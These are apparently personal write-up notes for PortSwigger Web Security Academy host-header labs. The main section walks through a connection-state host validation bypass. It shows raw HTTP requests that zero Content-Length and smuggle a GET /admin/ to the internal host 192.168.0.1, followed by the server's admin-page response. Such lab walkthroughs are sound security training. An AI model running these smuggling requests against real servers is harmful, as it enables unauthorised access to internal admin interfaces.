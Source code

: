 


# 6. Lab: SSRF via flawed request parsing
https://portswigger.net/web-security/host-header/exploiting/lab-host-header-ssrf-via-flawed-request-parsing

will be completed with burp pro



# 7. Host validation bypass via connection state attack
https://portswigger.net/web-security/host-header/exploiting/lab-host-header-host-validation-bypass-via-connection-state-attack

reading material: https://portswigger.net/research/browser-powered-desync-attacks#state


to solve the lab: exploit this behavior to access an internal admin panel located at 192.168.0.1/admin, then delete the user carlos. 


first - lets validate we can smuggle (remember to uncheck "update content length" in repeater options on the upper tab):
1. find a post request to exploit -in this lab we only have the login request using the POST method:
```
POST /login HTTP/1.1
Host: 0a22006403f519bfc0ee6fef00d90004.web-security-academy.net
Cookie: _lab=45%7cMCsCFHGopX02kALZTXNwpcgO6gj6BiAUAhMZPJSZh%2f16OPjKhQkCbw%2bapG8FYROs6DJu669XAnYH6gLFugq5zxU5EuOv8O%2fYDnUmA1HwEQq7bC5IScyo2kVxSwxvdKkYWJgvEFk3GfgTbjocb8F2h%2fVSAbFaGcgjgRHYYaCTJR7lwg%3d%3d; session=ZW5QknB5pD7Iy2LgDqxjfctfRqawb06I
Content-Length: 61


csrf=zi9TIKrlUGeQ38CAuM197KLRHyohbgSg&username=x&password=y
```


2.lets send it to repeater and add smuggled request to it (while zeroing the CL value):
```
POST /login HTTP/1.1
Host: 0a22006403f519bfc0ee6fef00d90004.web-security-academy.net
Cookie: _lab=45%7cMCsCFHGopX02kALZTXNwpcgO6gj6BiAUAhMZPJSZh%2f16OPjKhQkCbw%2bapG8FYROs6DJu669XAnYH6gLFugq5zxU5EuOv8O%2fYDnUmA1HwEQq7bC5IScyo2kVxSwxvdKkYWJgvEFk3GfgTbjocb8F2h%2fVSAbFaGcgjgRHYYaCTJR7lwg%3d%3d; session=ZW5QknB5pD7Iy2LgDqxjfctfRqawb06I
Content-Length: 0

GET /admin/ HTTP/1.1
Host: 192.168.0.1
Cookie: _lab=45%7cMCsCFHGopX02kALZTXNwpcgO6gj6BiAUAhMZPJSZh%2f16OPjKhQkCbw%2bapG8FYROs6DJu669XAnYH6gLFugq5zxU5EuOv8O%2fYDnUmA1HwEQq7bC5IScyo2kVxSwxvdKkYWJgvEFk3GfgTbjocb8F2h%2fVSAbFaGcgjgRHYYaCTJR7lwg%3d%3d; session=ZW5QknB5pD7Iy2LgDqxjfctfRqawb06I
```
3. now we are getting somewhere! it seems we got some sort of admin page:
```
HTTP/1.1 400 Bad Request
Content-Type: application/json; charset=utf-8
Keep-Alive: timeout=10
Content-Length: 26

"Missing parameter 'csrf'"HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Cache-Control: no-cache
Keep-Alive: timeout=10
Content-Length: 2981

<!DOCTYPE html>
```